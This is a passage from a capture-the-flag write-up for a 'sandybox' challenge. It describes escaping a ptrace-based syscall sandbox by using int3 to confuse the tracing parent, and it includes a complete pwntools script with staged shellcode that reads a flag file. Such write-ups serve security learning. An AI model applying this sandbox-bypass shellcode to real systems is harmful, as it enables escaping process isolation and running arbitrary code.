 Now, ```while``` calls ptrace at the beginning and at the end. We can attack this by invoking an interrupt using ```int3``` to wake the parent making it think that a syscall has been invoked, but actually it hasn't. Since ```int3``` wouldn't exit, the loop will be inverted.

So the overall exploit looks like:

- Using 10 byte shellcode (on run_shell) to stage to read 1000 bytes.
- Interrupt parent using ```int3```.
- cat flag!

## Exploit
```python
#!/usr/bin/python3
from pwn import *

context.arch='amd64'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)
e = context.binary = ELF("./sandybox")
p=process([e.path])
# gdb.attach(p)

# 10 bytes max
shellcode = asm('''
push 1000
pop rdx
xor eax, eax
syscall
''', arch='amd64') # syscall read to read 1024 bytes of shellcode

print(len(shellcode)) # debug
assert(len(shellcode)==10)
# gdb.attach(p)

shellcode += asm('''
nop
nop
nop
nop
nop
nop
nop
mov rax, 8
int3
''', arch='amd64') # wake parent, confuse loop

shellcode += asm(shellcraft.amd64.cat('flag'), arch='amd64')

# info(str(len(shellcode)))
context.log_level='debug'

p.send(shellcode)

p.recvall()
```

Thanks,

079
